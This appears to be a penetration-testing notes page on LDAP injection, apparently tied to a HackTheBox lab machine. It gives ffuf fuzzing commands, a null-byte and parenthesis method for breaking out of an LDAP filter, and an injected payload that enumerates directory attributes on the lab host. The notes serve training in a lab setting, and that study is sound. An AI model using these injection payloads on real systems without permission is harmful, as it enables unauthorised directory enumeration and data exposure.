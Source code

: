 # LDAP Injection

## Indicator

```bash
ffuf -w /usr/share/seclists/Fuzzing/special-chars.txt -u 'http://example.com?param=FUZZ'
```

**Output:**

```
*                      [Status: 200, ...]
(                      [Status: 200, ...]
\                      [Status: 200, ...]
)                      [Status: 200, ...]
```

## Methodology

End with null byte (`%00`), add `)` progressively to understand the context of the query

IppSec video: https://youtube.com/watch?v=51JQg202csw&t=885

Null byte in ldap is the equivalent to a comment in SQL injection, terminating the statement

Example query

```
(&
	(name=technician)
)
```

Adding the null byte wipes out everything after it, so applying our methodology in this example reveals that we need to add 2 `)` to get expected output and not break the site:

```
(&
	(name=technician))%00
```

We can now fuzz attributes with the following example

```bash
ffuf -w /usr/share/seclists/Fuzzing/LDAP-active-directory-attributes.txt -u 'http://internal.analysis.htb/users/list.php?name=technician)(FUZZ%3d*' -ms 418
```

We match size of 418 cause this is output size matches where the website doesnt break and provides expected output.

Check the following writeup to continue following the logic: [10.129.187.203](../../../Writeups/HackTheBox/0%20Machines/Gen%203/Analysis/10.129.187.203.md)
